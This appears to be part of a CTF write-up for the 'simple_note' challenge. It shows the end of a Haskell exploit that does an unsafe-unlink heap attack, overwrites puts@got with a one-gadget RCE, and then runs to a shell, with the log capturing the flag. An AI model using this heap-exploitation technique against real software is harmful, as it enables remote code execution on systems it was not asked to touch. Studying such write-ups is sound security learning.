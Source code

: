 ```haskell
  -- 1: x/16xg 0x006020c0
  -- 0x6020c0 <list>:        0x0000000000b83130      0x0000000000b830a0
  -- 0x6020d0 <list+16>:     0x0000000000b83010      0x0000000000b831c0
  -- 0x6020e0 <list+32>:     0x0000000000b83250      0x0000000000000000
  -- 0x6020f0 <list+48>:     0x00000000006020d8      0x0000000000b833f0
  -- 0x602100 <list+64>:     0x0000000000000000      0x0000000000000000
  -- 0x602110 <list+80>:     0x0000000000000000      0x0000000000000000
  -- 0x602120 <list+96>:     0x0000000000000000      0x0000000000000000
  -- 0x602130 <list+112>:    0x0000000000000000      0x0000000000000000

  info "overwrite list[3] to puts@got via buffer 6"
  let heap_addr_len = BS.length leak1
      libc_addr_len = BS.length leak2
  editNote 6 $ BS.take heap_addr_len $ fromJust $ p64 puts_got

  info "overwrite puts@got to one-gadget-RCE via buffer 3"
  editNote 3 $ BS.take libc_addr_len $ fromJust $ p64 $ libc_base + libc_one_gadget'

  interactive r
```

    $ ./exploit.hs
    [x] Opening connection to pwn1.chal.ctf.westerns.tokyo on port 16317
    [+] Opening connection to pwn1.chal.ctf.westerns.tokyo on port 16317: Done
    [*] allocate 0x88 bytes buffer x4 (buffer 0..3)
    [*] free buffer 2 and buffer 0
    [*] allocate 0x88 bytes buffer x2 (buffer 0, buffer 2)
    [*] leak informations
    [+]   heap_base:  0x1181000
    [+]   main_arena: 0x7fd044fcfb20
    [+]   libc_base:  0x7fd044c0b000
    [*] allocate [0x88, 0xf8, 0x88, 0x88] bytes buffer (buffer 4..7)
    [*] free buffer 5
    [*] overwrite chunk 5's size
    [*] write fake prev_size via buffer 7
    [*] allocate [0x108, 0x88] bytes buffer (buffer 5, buffer 8)
    [*] set chunk 8's fd and bk, clear prev_inuse flag
    [*] free buffer 5 (unsafe unlink attack!)
    [*] overwrite list[3] to puts@got via buffer 6
    [*] overwrite puts@got to one-gadget-RCE via buffer 3
    [*] Entering interactive mode
    id
    uid=16317069 gid=16317(p16317) groups=16317(p16317)
    ls
    flag
    launch.sh
    simple_note
    cat flag
    TWCTF{unl1nk_4774ck_15_u53fu1_73chn1qu3}
    [*] Leaving interactive mode



[^1]: 値は x86-64 の場合